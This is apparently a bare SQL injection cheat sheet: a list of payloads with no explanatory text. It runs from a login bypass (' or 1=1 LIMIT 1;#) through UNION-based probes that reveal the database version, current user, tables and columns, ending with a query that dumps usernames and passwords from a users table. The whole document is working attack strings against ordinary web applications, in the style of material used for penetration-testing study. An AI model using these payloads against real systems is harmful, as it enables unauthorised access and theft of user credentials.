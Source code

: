 ### SQL Injection

```
' or 1=1 LIMIT 1;#
```
```
<Username>' or 1=1 LIMIT 1;#
```
```
id=1 order by 1
```
```
UNION all select 1,2,3
```
```
UNION all select 1,2, @@version
```
```
UNION all select 1,2, user()
```
```
UNION all select 1,2, table_name from information_schema.tables
```
```
UNION all select 1,2, column_name from information_schema.columns where table_name='users'
```
```
UNION all select 1, username, password from users
```


